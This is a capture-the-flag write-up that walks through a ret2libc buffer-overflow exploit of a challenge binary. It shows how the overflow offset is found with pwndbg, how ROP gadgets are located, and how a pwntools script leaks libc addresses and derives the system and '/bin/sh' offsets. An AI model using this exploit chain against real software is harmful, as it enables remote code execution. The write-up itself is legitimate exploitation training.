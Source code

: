 # C is super easy and secure 2

## Patching the Binary to use it with libc of the server

You need a tool like [pwninit](https://github.com/io12/pwninit) to locally link the libc and the linker .so of the server.

You can do this with: `pwninit --bin program.elf --ld ld-linux-x86-64.so.2 --libc libc.so.6`

## Find Offset to cause overflow

First of all, you can check for the offset pattern that crashes the program (because of an overlow).

I like to use `pwndbg` for this:

```bash
$ pwndbg program.elf_patched 
# Launches Pwndbg (GDB with powerful enhancements) and loads the binary `program.elf_patched`.

pwndbg: loaded 179 pwndbg commands and 47 shell commands...
# Displays Pwndbg's initialization info; confirms availability of useful commands and functions.

Reading symbols from program.elf_patched...
# GDB attempts to read debugging symbols. These would provide useful info like variable names and line numbers.

pwndbg> cyclic 64
# Generates a 64-byte cyclic pattern (unique sequence) for use in detecting buffer overflow offsets.

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
# The actual generated pattern that will be input into the program.

pwndbg> r
# Runs the binary under GDB.

Please enter a username: HackTWK
Please enter a password: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaa
# User provides input (name + cyclic pattern) to trigger potential buffer overflow.

Program received signal SIGSEGV, Segmentation fault.
# The program crashes due to a segmentation fault — often indicates control over instruction pointer (EIP/RIP).

0x000000000040066d in main ()
# Crash occurred inside `main` at offset 0x40066d.

RBP  0x6161616161616167 ('gaaaaaaa')
# The base pointer (RBP) has been overwritten with part of the cyclic pattern — suggests stack buffer overflow.

RIP  0x40066d (main+434) ◂— ret 
# The instruction pointer (RIP) has not yet been overwritten; the crash happened on a return instruction.

───────────────────────────────────────────────────────────────────────────────────────────
rsp 0x7fffffffd3b8 ◂— 'haaaaaaa'
# Stack pointer (RSP) is pointing to part of the cyclic input — confirms overflow reached the stack.

pwndbg> cyclic -l 0x6161616161616168
# This command checks where in the cyclic pattern the value 0x6161616161616168 ('haaaaaaa') appears.

Found at offset 56
# Confirms that the crash occurred 56 bytes into the cyclic pattern — key to determining correct buffer size for exploit.
```

Now we know that the buffer is 56 bytes large.

## Find GOT Adress table to find libc version

In `pwndbg` you can just type `got` and it will print something like:

```bash
pwndbg> got
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /drives/f/git/HackTWK/Challenges/reversing/c-is-easy-and-secure-2/program.elf_patched:
GOT protection: Partial RELRO | Found 6 GOT entries passing the filter
[0x403000] puts@GLIBC_2.2.5 -> 0x7ffff7dfc600 (puts) ◂— endbr64 
[0x403008] printf@GLIBC_2.2.5 -> 0x7ffff7dd4a80 (printf) ◂— endbr64 
[0x403010] strcspn@GLIBC_2.2.5 -> 0x7ffff7f04c40 (__strcspn_sse42) ◂— endbr64 
[0x403018] fgets@GLIBC_2.2.5 -> 0x7ffff7dfa2e0 (fgets) ◂— endbr64 
[0x403020] gets@GLIBC_2.2.5 -> 0x7ffff7dfb860 (gets) ◂— endbr64 
[0x403028] setvbuf@GLIBC_2.2.5 -> 0x7ffff7dfcea0 (setvbuf) ◂— endbr64 
```

The `0x7ffff7dfc600` addresses are only valid at the current runtime and need to be extracted using a ROP Chain.

## Crafting the address leaking

I use `ropper` to search for the assembly instructions of the `ret` and `pop rdi; ret` instance with `ropper --file ./program.elf_patched --search "ret"`.

This will give me somethign like `0x0000000000400356: ret;`

You also could use `ROPgadget --binary program.elf_patched | grep ret`, pwngdb or pwntools right away to find this.

We also need the "normal" address of the `pop rdi; ret` with e.g. `ropper --file ./program.elf_patched --search "pop rdi"`

`0x00000000004004b6 : pop rdi ; ret`

We also need the `puts` address from the GOT Table. You can also retrive those values from pwntools with this code:

```python
got_puts_address = p64(binary.got.puts)
got_fgets_address = p64(binary.got.fgets)
```

### Actual leaking

```python
from pwn import *

context.terminal = ["konsole", "-e"]
context.binary = binary = elf = ELF("./program.elf_patched")

p = process()

# gdb.attach(p)

pop_rdi_ret = p64(0x00000000004004b6)
ret = p64(0x0000000000400356)

main_address = p64(binary.symbols.main)

got_puts_address = p64(binary.got.puts) # this is only the local address of the got table
got_fgets_address = p64(binary.got.fgets)
got_printf_address = p64(binary.got.printf)


# print("got puts address: {}".format(hex(binary.got.puts)))
# print("got fgets address: {}".format(hex(binary.got.fgets)))
# print("got printf address: {}".format(hex(binary.got.printf)))

plt_puts_address = p64(binary.plt.puts)
plt_fgets_address = p64(binary.plt.fgets)
plt_printf_address = p64(binary.plt.printf)

# print("plt puts address: {}".format(hex(binary.plt.puts)))
# print("plt fgets address: {}".format(hex(binary.plt.fgets)))
# print("plt printf address: {}".format(hex(binary.plt.printf)))


payload = b"A"*56
payload += ret
payload += pop_rdi_ret + got_fgets_address + plt_puts_address
payload += ret + main_address


p.recvuntil(b": ")
p.sendline(b"HackTWK")
p.recvuntil(b"password: ")
p.sendline(payload)
output = p.recvuntil(b"username: ")
print(output)

# Split output by newlines
lines = output.split(b'\n')

# Find all possible 6-byte leaks
leaks = [line for line in lines if len(line) == 6]

fgets_leak = u64(leaks[0].ljust(8, b'\x00'))

print(f"Leaked fgets: {hex(fgets_leak)}")

pause()
```

## Getting to the symbol address you want

With parts of the GOT Table and the leaked address of a symbol you can "guess" the addresses of the libc symbols/functions that are relevant to get e.g. a RCE.
To figure it out go to one of the websites when searching for "lib c database search". I'll use [this](https://libc.blukat.me/).

You need to put in the values you got from the GOT table to find the other addresses.

![showcase](./image.png)

In this image are multiple things to consider:

1. Put the address values of the leaked addresses from the GOT table in the form (you can only really need the last few bytes so `0x7ffff7dd4a80` becomes just `4a80`)
2. Select the libc version. This might be a bit annoying, since you might try multiple times with different versions
3. Select the symbol you want to leak, so the address offsets are generated automatically

This will result in those lines of code:

```python
str_bin_sh = p64(fgets_leak + 0x1592f8)
system_address = p64(fgets_leak - 0x2e610)
```
